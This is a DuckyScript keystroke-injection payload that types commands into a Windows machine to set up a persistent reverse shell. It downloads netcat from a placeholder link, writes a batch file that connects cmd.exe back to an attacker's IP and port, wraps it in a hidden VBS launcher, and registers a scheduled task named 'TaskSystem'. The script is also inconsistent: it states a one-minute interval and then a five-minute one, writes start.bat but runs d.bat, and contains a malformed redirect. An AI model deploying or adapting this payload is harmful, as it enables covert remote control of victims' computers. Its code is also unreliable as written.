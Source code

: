   REM [Persistent reverse shell that runs in the background every minute.]
  REM [replace LINK with netcat direct download link]
  REM [replace IP with your listening IP]
  REM [replace PORT with a port of your choice]
  REM [opens command window]
  GUI r
  DELAY 300
  STRING cmd
  ENTER
  DELAY 500
  REM [downloads netcat and saves it as a.exe in the folder C:\System]
  STRING cd / & mkdir System & cd System & echo (wget 'LINK' -OutFile a.exe) > b.PS1 & powershell -ExecutionPolicy ByPass -File b.ps1
  ENTER
  DELAY 1000
  REM [creates start.bat which triggers the reverse shell]
  STRING echo START /MIN a.exe IP PORT -e cmd.exe -d ^& exit > start.bat
  ENTER
  DELAY 100
  REM [creates three lines of commands in a script file telling the start.bat file to run in the background]
  STRING echo Set WshShell = CreateObject('WScript.Shell') > c.vbs
  ENTER
  DELAY 100
  STRING echo WshShell.Run chr(34) ^& C:/System/d.bat ^& Chr(34), 0 >> c.vbs
  ENTER
  DELAY 50
  STRING echo Set WshShell = Nothing >>> c.vbs
  ENTER
  DELAY 50
  REM [schedules the script file to run every 5 minutes (change the number 5 to a different time if you need)]
  STRING schtasks /create /tn TaskSystem /tr C:/System/c.vbs /sc minute /mo 5 
  ENTER
  DELAY 75
  REM [runs start.bat and closes the command window]
  STRING d.bat & exit
  ENTER